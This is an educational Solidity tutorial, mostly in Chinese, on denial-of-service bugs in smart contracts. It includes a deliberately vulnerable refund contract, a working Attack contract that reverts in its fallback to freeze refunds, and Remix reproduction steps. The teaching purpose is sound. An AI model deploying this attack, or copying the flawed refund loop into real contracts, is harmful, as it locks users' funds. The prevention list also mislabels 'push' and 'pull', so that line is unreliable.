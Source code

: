 ```yaml
---
title: S09. Denial of Service (DoS)
tags:
    - solidity
    - security
    - fallback
---
```


# WTF Solidity S09. Denial of Service (DoS)

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@yzhxxyz](https://twitter.com/yzhxxyz)

---

这一讲，我们将介绍智能合约的拒绝服务（Denial of Service, DoS）漏洞，并介绍预防的方法。NFT 项目 Akutar 曾因为 DoS 漏洞损失 11,539 ETH，当时价值 3400 万美元。

## DoS

在 Web2 中，拒绝服务攻击（DoS）是指通过向服务器发送大量垃圾信息或干扰信息的方式，导致服务器无法向正常用户提供服务的现象。而在 Web3，它指的是利用漏洞使得智能合约无法正常提供服务。

在 2022 年 4 月，一个很火的 NFT 项目名为 Akutar，他们使用[荷兰拍卖](https://github.com/AmazingAng/WTF-Solidity/tree/main/35_DutchAuction)进行公开发行，筹集了 11,539.5 ETH，非常成功。之前持有他们社区 Pass 的参与者会得到 0.5 ETH 的退款，但是他们处理退款的时候，发现智能合约不能正常运行，全部资金被永远锁在了合约里。他们的智能合约有拒绝服务漏洞。

![](./img/S09-1.png)

## 漏洞例子

下面我们学习一个简化了的 Akutar 合约，名字叫 `DoSGame`。这个合约逻辑很简单，游戏开始时，玩家们调用 `deposit()` 函数往合约里存款，合约会记录下所有玩家地址和相应的存款；当游戏结束时，`refund()`函数被调用，将 ETH 依次退款给所有玩家。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

这里的漏洞在于，`refund()` 函数中利用循环退款的时候，是使用的 `call` 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

```
(bool success, ) = player.call{value: refundETH}("");
```

下面我们写个攻击合约， `attack()` 函数中将调用 `DoSGame` 合约的 `deposit()` 存款并参与游戏；`fallback()` 回调函数将回退所有向该合约发送`ETH`的交易，对`DoSGame` 合约中的 DoS 漏洞进行了攻击，所有退款将不能正常进行，资金被锁在合约中，就像 Akutar 合约中的一万多枚 ETH 一样。

```solidity
contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## `Remix` 复现

**1.** 部署 `DoSGame` 合约。
**2.** 调用 `DoSGame` 合约的 `deposit()`，进行存款并参与游戏。
![](./img/S09-2.png)
**3.** 此时，如果游戏结束调用 `refund()` 退款的话是可以正常退款的。
![](./img/S09-3.jpg)
**3.** 重新部署 `DoSGame` 合约，并部署 `Attack` 合约。
**4.** 调用 `Attack` 合约的 `attack()`，进行存款并参与游戏。
![](./img/S09-4.jpg)
**5.** 调用 `DoSGame` 合约`refund()`，进行退款，发现不能正常运行，攻击成功。
![](./img/S09-5.jpg)

## 预防方法

很多逻辑错误都可能导致智能合约拒绝服务，所以开发者在写智能合约时要万分谨慎。以下是一些需要特别注意的地方：

1. 外部合约的函数调用（例如 `call`）失败时不会使得重要功能卡死，比如将上面漏洞合约中的 `require(success, "Refund Fail!");` 去掉，退款在单个地址失败时仍能继续运行。
2. 合约不会出乎意料的自毁。
3. 合约不会进入无限循环。
4. `require` 和 `assert` 的参数设定正确。
5. 退款时，让用户从合约自行领取（push），而非批量发送给用户(pull)。
6. 确保回调函数不会影响正常合约运行。
7. 确保当合约的参与者（例如 `owner`）永远缺席时，合约的主要业务仍能顺利运行。

## 总结

这一讲，我们介绍了智能合约的拒绝服务漏洞，Akutar 项目因为该漏洞损失了一万多枚ETH。很多逻辑错误都能导致DoS，开发者写智能合约时要万分谨慎，比如退款要让用户自行领取，而非合约批量发送给用户。
